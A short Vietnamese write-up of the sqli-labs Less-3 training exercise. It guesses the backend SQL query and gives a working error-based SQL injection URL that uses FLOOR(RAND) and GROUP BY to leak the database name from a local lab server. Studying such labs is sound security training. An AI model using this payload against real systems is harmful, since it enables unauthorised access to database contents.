







# Less 3

Ta thấy bài này là error based



Yêu cầu nhập vào một số



Bắt đầu thử




Có thể dự đoán câu query sẽ là:

```
select user, passwd from table where id='$ID'
```







Câu query có thể là:

```
select user, passwd from table where id=('$ID') limit 0,1
```

Ta có thể show được các thông tin

```
http://192.168.84.233/sqli-labs/Less-3/?id=1') and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Ta có thể thao giống [Less-1](sqli-labs/Less-1.md))